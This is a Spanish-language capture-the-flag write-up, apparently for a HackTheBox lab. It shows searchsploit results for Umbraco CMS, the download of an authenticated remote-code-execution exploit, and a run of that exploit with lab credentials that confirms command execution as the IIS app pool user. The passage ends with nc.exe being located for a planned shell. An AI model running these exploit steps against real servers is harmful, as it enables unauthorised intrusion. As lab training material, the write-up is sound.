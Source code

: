 ## Web Exploitation

He buscado con `searchsploit` y he encontrado un `RCE (Remote Code Execution)`

```
# earchsploit umbraco            
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                       |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Umbraco CMS - Remote Command Execution (Metasploit)                                                                                                  | windows/webapps/19671.rb
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution                                                                                           | aspx/webapps/46153.py
Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)                                                                                           | aspx/webapps/49488.py
Umbraco CMS 8.9.1 - Directory Traversal                                                                                                              | aspx/webapps/50241.py
Umbraco CMS SeoChecker Plugin 1.9.2 - Cross-Site Scripting                                                                                           | php/webapps/44988.txt
Umbraco v8.14.1 - 'baseUrl' SSRF                                                                                                                     | aspx/webapps/50462.txt
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Nos `descargamos` el `exploit`

```
# searchsploit -m aspx/webapps/49488.py
  Exploit: Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)
      URL: https://www.exploit-db.com/exploits/49488
     Path: /usr/share/exploitdb/exploits/aspx/webapps/49488.py
    Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable, with very long lines (723)
Copied to: /home/justice-reaper/Desktop/Remote/exploits/49488.py
```

`Comprobamos` que tenemos un `RCE (Remote Command Execution)`

```
# python3 49488.py -u admin@htb.local -p baconandcheese -i http://10.129.230.172 -c whoami
iis apppool\defaultapppool
```

## Intrusión

`Localizamos` el binario de `nc.exe`

```
# locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe
```
